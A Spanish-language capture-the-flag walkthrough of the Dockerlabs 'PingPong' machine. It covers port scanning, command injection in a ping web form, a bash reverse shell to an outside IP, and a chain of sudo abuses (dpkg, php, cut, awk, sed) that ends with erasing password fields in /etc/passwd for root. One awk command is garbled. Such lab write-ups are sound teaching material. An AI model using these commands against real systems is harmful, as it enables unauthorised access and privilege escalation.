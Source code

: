 ```yaml
---
title: PingPong Dockerlabs
image: /assets/img/Anexos/Pasted%20image%2020250329195808-1.png
categories: [CTF]
tags: [dockerlabs,hacking]
---
```

![](Pasted%20image%2020250329195808-1.png)

## Reconocimiento
Comenzamos con un escaneo completo de `nmap` para sacar los puertos y versiones:
```shell
❯ nmap -sSCV --min-rate=5000 -Pn -n -p- 172.17.0.2 -oN nmap.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-29 20:01 CET
Nmap scan report for 172.17.0.2
Host is up (0.0000020s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp  open  ssl/http Apache httpd 2.4.58 ((Ubuntu))
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.58 (Ubuntu)
| ssl-cert: Subject: commonName=example.com/organizationName=Your Organization/stateOrProvinceName=California/countryName=US
| Not valid before: 2024-05-19T14:20:49
|_Not valid after:  2025-05-19T14:20:49
|_ssl-date: TLS randomness does not represent time
|_http-title: Apache2 Ubuntu Default Page: It works
5000/tcp open  http     Werkzeug httpd 3.0.1 (Python 3.12.3)
|_http-server-header: Werkzeug/3.0.1 Python/3.12.3
|_http-title: Ping Test
MAC Address: AA:E9:FC:7E:83:56 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.46 seconds

```
Nmap nos reporta los puertos _80_, _443_ y _5000_:

Por el puerto _443(https)_ tenemos esta web que tiene el .html por defecto de apache por lo que voy a ejecutar `gobuster` para listar:
![](Pasted%20image%2020250329200216-1.png)


```
❯ gobuster dir -u https://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 276]
/.html                (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 301) [Size: 315] [--> https://172.17.0.2/javascript/]
/machine.php          (Status: 200) [Size: 6989]
```
Rápidamente `gobuster` me reporta esta web donde poco podemos hacer.
![](Pasted%20image%2020250329200325-1.png)

En cambio, por el puerto _5000_ tenemos esta web que parece que hace un `ping`:
![|896](Pasted%20image%2020250329200410-1.png)


![](Pasted%20image%2020250329200447-1.png)

## Explotación
Pruebo **Command Injection** y es vulnerable:
![](Pasted%20image%2020250329200525-1.png)
Entonces me lanzo una reverse shell:
```shell
bash -c "bash -i >& /dev/tcp/192.168.1.89/4444 0>&1"
```

![|894](Pasted%20image%2020250329200626-1.png)

## Escalada 
Una vez dentro como el usuario **freddy** tenemos los siguientes usuarios en la máquina:
```shell
freddy@2d7edf097ede:~/Desktop$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
freddy:x:1001:1001::/home/freddy:/bin/bash
bobby:x:1002:1002::/home/bobby:/bin/bash
gladys:x:1003:1003::/home/gladys:/bin/bash
chocolatito:x:1004:1004::/home/chocolatito:/bin/bash
theboss:x:1005:1005::/home/theboss:/bin/bash
```
Como **freddy** podemos ejecutar `dpkg` como **bobby**:
```shell
freddy@2d7edf097ede:/opt$ sudo -l
Matching Defaults entries for freddy on 2d7edf097ede:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User freddy may run the following commands on 2d7edf097ede:
    (bobby) NOPASSWD: /usr/bin/dpkg
```
Para escalar ejecuto:
```shell
freddy@2d7edf097ede:/opt$ sudo -u bobby dpkg -l
```
Y luego pongo:
![](Pasted%20image%2020250329201413-1.png)
Como **bobby** me vi obligado a mudar de shell ya que estaba teniendo muchos problemas para la próxima escalada:

![|923](Pasted%20image%2020250329221321-1-1-1.png)

Como **bobby** podemos ejecutar `php` como **gladys**
```shell
bobby@2d7edf097ede:/opt$ sudo -l
Matching Defaults entries for bobby on 2d7edf097ede:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User bobby may run the following commands on 2d7edf097ede:
    (gladys) NOPASSWD: /usr/bin/php
```
Para la escalada ejecuto lo siguiente:
```shell
sudo -u gladys /usr/bin/php -r "system('/bin/sh');"
```

Ahora como **gladys** podemos ejecutar `cut` como **chocolatito**:
```shell
whoami
gladys
sudo -l
Matching Defaults entries for gladys on 2d7edf097ede:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User gladys may run the following commands on 2d7edf097ede:
    (chocolatito) NOPASSWD: /usr/bin/cut
```

Pronto vi que **chocolatito** tenia guardada su contraseña en _/opt_:
```shell
find / -user chocolatito 2> /dev/null
/opt/chocolatitocontraseña.txt
/home/chocolatito
```
Para poder leerla ejecute lo siguiente:
```shell
sudo -u chocolatito /usr/bin/cut -d "" -f 1 /opt/chocolatitocontraseña.txt
chocolatitopassword
```
Ahora como **chocolatito** podemos ejecutar `awk` como **theboss**:
```shell
chocolatito@2d7edf097ede:/home/freddy$ sudo -l
Matching Defaults entries for chocolatito on 2d7edf097ede:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User chocolatito may run the following commands on 2d7edf097ede:
    (theboss) NOPASSWD: /usr/bin/awk
```

Para la escalada ejecuto:
```shell
chocolatito@2d7edf097ede:/home/freddy$ sudo -u theboss /usr/bin/awk 'BEGIN {system("/bin/s'BEGIN {system("/bin/sh")}'
id
uid=1005(theboss) gid=1005(theboss) groups=1005(theboss)
```

Por último y terminando, como **theboss** podemos ejecutar `sed` como **root**, por lo que podemos aprovecharnos de esto y quitar las "x" en el _/etc/passwd_ y así indicamos que los usuario no tienen contraseñas: 
```shell
sudo -l
Matching Defaults entries for theboss on 2d7edf097ede:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User theboss may run the following commands on 2d7edf097ede:
    (root) NOPASSWD: /usr/bin/sed
```
**Explicación del /etc/passwd**
```
### /etc/passwd sintaxis

mark:x:1001:1001:mark,,,:/home/mark:/bin/bash
[--] - [--] [--] [-----] [--------] [--------]
|    |   |    |     |         |        |
|    |   |    |     |         |        +-> 7. Login shell
|    |   |    |     |         +----------> 6. Home directory
|    |   |    |     +--------------------> 5. GECOS
|    |   |    +--------------------------> 4. GID
|    |   +-------------------------------> 3. UID
|    +-----------------------------------> 2. Password stored in /etc/shadow
+----------------------------------------> 1. Username

```

Quedaría así:
```
sudo sed "s/x//g" /etc/passwd     
root::0:0:root:/root:/bin/bash
daemon::1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin::2:2:bin:/bin:/usr/sbin/nologin
sys::3:3:sys:/dev:/usr/sbin/nologin
sync::4:65534:sync:/bin:/bin/sync
games::5:60:games:/usr/games:/usr/sbin/nologin
man::6:12:man:/var/cache/man:/usr/sbin/nologin
lp::7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail::8:8:mail:/var/mail:/usr/sbin/nologin
news::9:9:news:/var/spool/news:/usr/sbin/nologin
uucp::10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proy::13:13:proy:/bin:/usr/sbin/nologin
www-data::33:33:www-data:/var/www:/usr/sbin/nologin
backup::34:34:backup:/var/backups:/usr/sbin/nologin
list::38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc::39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt::42:65534::/noneistent:/usr/sbin/nologin
nobody::65534:65534:nobody:/noneistent:/usr/sbin/nologin
ubuntu::1000:1000:Ubuntu:/home/ubuntu:/bin/bash
freddy::1001:1001::/home/freddy:/bin/bash
bobby::1002:1002::/home/bobby:/bin/bash
gladys::1003:1003::/home/gladys:/bin/bash
chocolatito::1004:1004::/home/chocolatito:/bin/bash
theboss::1005:1005::/home/theboss:/bin/bash
```
Ejecutamos con el parámetro `-i` para que guarde los cambios y ahora nos podemos logear como **root** SIN proporcionar contraseña:
```
sudo sed -i "s/x//g" /etc/passwd  
su root
root@2d7edf097ede:/home/freddy# 
```